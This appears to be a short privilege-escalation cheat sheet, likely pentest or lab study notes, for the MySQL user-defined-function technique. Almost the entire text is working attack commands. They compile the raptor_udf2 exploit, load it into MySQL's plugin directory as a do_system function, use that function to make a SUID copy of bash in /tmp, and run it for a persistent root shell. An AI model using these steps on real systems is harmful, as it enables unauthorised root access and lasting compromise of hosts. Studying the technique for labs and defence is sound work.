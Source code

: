 ### UDF

1. Download the [exploit](https://www.exploit-db.com/exploits/1518) to your machine
2. Compile the exploit: `gcc -g -c raptor_udf2.c -fPIC` and `gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc`
3. Connect to MySQL service: `mysql -u root`
4. Create User Defined Function using the exploit: `use mysql; `
`create table foo(line blob);`
`insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));`
`select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';`
`create function do_system returns integer soname 'raptor_udf2.so';``
5. Use the function to copy /bin/bash to /tmp/rootbash with SUID permissions: `select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');`
6. Run the executable to get persistent root shell: `/tmp/rootbash -p`